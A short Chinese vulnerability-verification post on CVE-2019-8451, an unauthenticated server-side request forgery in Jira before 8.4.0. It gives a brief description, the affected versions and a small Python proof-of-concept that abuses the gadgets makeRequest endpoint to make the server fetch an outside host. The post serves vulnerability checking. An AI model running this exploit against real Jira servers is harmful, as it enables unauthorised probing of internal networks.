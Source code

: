 # （CVE-2019-8451）Jira未授权SSRF漏洞验证

> 原文：[https://www.zhihuifly.com/t/topic/2991](https://www.zhihuifly.com/t/topic/2991)

# （CVE-2019-8451）Jira未授权SSRF漏洞验证

## 一、漏洞简介

（CVE-2019-8451）Jira未授权SSRF漏洞验证

## 二、影响范围

Jira < 8.4.0

## 三、复现过程

https://github.com/ianxtianxt/CVE-2019-8451

```
#coding:utf-8
import requests

host = ‘[http://xx.xx.xx.xx:8080](http://xx.xx.xx.xx:8080)’

header = {

‘X-Atlassian-Token’: ‘no-check’,

‘Connection’: ‘close’

} `url = host + ‘/plugins/servlet/gadgets/makeRequest?url=’+host+’@www.baidu.com/’

html = requests.get(url = url,headers = header)

print html.text` 
```